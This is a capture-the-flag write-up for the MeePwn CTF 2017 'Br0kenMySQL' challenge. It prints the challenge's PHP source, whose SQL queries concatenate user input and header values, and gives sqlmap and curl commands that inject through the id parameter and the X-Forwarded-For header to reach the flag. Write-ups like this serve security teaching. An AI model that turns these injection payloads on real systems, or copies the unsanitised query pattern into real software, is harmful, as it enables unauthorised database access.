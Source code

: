 ```yaml
---
title: "MeePwn CTF 2017: Br0kenMySQL"
date: "2017-07-17"
author: Jorge
categories:
- hack 
- ctf
tags:
- hack 
- ctf
toc: true
summary: ""
---
```


**100 pts**

> [BabeTrick](http://139.59.239.133/?debug=%F0%9F%95%B5)

```php
<title>Br0kenMySQL</title><h1><pre>
<p style='color:Red'>Br0kenMySQL</p>
<?php

if($_GET['debug']=='🕵') die(highlight_file(__FILE__));

require 'config.php';

$link = mysqli_connect('localhost', MYSQL_USER, MYSQL_PASSWORD);

if (!$link) {
    die('Could not connect: ' . mysql_error());
}

if (!mysqli_select_db($link,MYSQL_USER)) {
    die('Could not select database: ' . mysql_error());
}
    $id = $_GET['id'];
    if(preg_match('#sleep|benchmark|floor|rand|count#is',$id))
        die('Don\'t hurt me :-(');
    $query = mysqli_query($link,"SELECT username FROM users WHERE id = ". $id);
    $row = mysqli_fetch_array($query);
    $username = $row['username'];

    if($username === 'guest'){

        $ip = @$_SERVER['HTTP_X_FORWARDED_FOR']!="" ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR'];
        if(preg_match('#sleep|benchmark|floor|rand|count#is',$ip))
die('Don\'t hurt me :-(');
        var_dump($ip);
        if(!empty($ip))
            mysqli_query($link,"INSERT INTO logs VALUES('{$ip}')");

        $query = mysqli_query($link,"SELECT username FROM users WHERE id = ". $id);
        $row = mysqli_fetch_array($query);
        $username = $row['username'];
        if($username === 'admin'){
            echo "What ???????\nLogin as guest&admin at the same time ?\nSeems our code is broken, here is your bounty\n";
            die(FLAG);
        }
        echo "Nothing here";
    } else {
        echo "Hello ".$username;
    }
?>
</h1>
</pre>
```

## Reading the code

First of all, search the flag. We can get the flag only if you login as guest and admin at the same time.

```php
if($username === 'guest'){
    ...
    if($username === 'admin'){
        ...
        die(FLAG);
    }
    ...
}
```

There exist 2 parameters we could use: ***$_GET['id']*** ***@$_SERVER['HTTP_X_FORWARDED_FOR']***. The header is also a paramete we can set. After a few seconds of try and error we get the id of the user guest (2) and admin (1). The header is store in the table logs.

```php
mysqli_query($link,"INSERT INTO logs VALUES('{$ip}')");
```

## Testing our thoughts

In the table ***logs*** looks like there is a value named **ip** and we can confirm it with a simple sqlmap search. We test if we can hack the header as well.

```bash
$ sqlmap --dbms -u "http://139.59.239.133/?id=2 -T logs"
$ curl --header "X-Forwarded-For: 'we can hack it'" "http://139.59.239.133/?id=2"
```

## SQL injection

1. We need the username with id 2 ***(guest)***
2. We insert the variable "@$_SERVER['HTTP_X_FORWARDED_FOR']" in the table **logs**
3. We need the username with id 1 ***(admin)***

The full sql looks like this (with the ip as a random number):

```sql
SELECT username FROM users WHERE id = 2 or id=(SELECT 1 FROM logs WHERE ip=5641314)
```

## Our friend curl

As soon as the random number already exsists in the table **logs** the sql will return the first id, in this case ***admin (id=1)*** user. We need to be sure that **@$_SERVER['HTTP_X_FORWARDED_FOR']** is never used in the table. A random number will do the trick.

```bash
$ curl --header "X-Forwarded-For: 5641314" "http://139.59.239.133/?id=2%20or%20id=(SELECT%201%20FROM%20logs%20WHERE%20ip=5641314)"
```

### MeePwnCTF{_b4by_tr1ck_fixed}

```html
<title>Br0kenMySQL</title><h1><pre>
<p style='color:Red'>Br0kenMySQL</p>
string(8) "86574965"
What ???????
Login as guest&admin at the same time ?
Seems our code is broken, here is your bounty
MeePwnCTF{_b4by_tr1ck_fixed}
```